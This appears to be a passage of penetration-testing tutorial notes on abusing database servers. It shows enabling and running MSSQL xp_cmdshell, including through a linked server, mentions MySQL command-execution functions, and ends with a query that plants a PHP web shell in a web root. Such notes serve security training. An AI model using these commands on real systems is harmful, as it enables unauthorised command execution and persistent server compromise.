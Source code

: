 #### XP_CMDSHELL
```cmd-session
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

### Enable xp_cmdshell
If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO


OR ON LINKED SERVER WE ENABLE AND EXECUTE COMMAND

EXECUTE('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE; EXEC xp_cmdshell ''whoami''') AT [LOCAL.TEST.LINKED.SRV];
```


`MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys). It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be able to use it.

## Write Local Files
#### MySQL - Write Local File
```shell
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
